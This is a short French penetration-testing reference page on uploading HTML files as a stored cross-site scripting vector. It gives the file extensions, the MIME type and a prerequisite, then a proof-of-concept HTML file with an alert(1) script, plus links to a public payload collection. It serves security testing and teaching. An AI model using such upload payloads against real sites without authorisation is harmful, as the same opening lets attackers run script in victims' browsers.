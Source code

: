 # HTML

![](logo_html5.png)

**Facteur de risque** : XSS

**Extension** : `.html`, `.htm`

**Type MIME** : `text/html`

**Description** : Le **H**yper**T**ext **M**arkup **L**anguage (**HTML** ou **HTML5**) est un langage de balisage conçu pour représenter les pages web.

## Sommaire

- Cross-site scripting (XSS)

## Cross-site scripting (XSS)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le code HTML suivant fait apparaître un pop up :

**xss.html**, **xss.htm**

```html
<!DOCTYPE html>
<html>
<body>

<h1>Stored XSS</h1>

<script>alert(1)</script>

</body>
</html>
```

## References

[PayloadsAllTheThings/xss.htm at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/Files/xss.htm)

[PayloadsAllTheThings/xss.html at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20HTML/xss.html)

## Todo
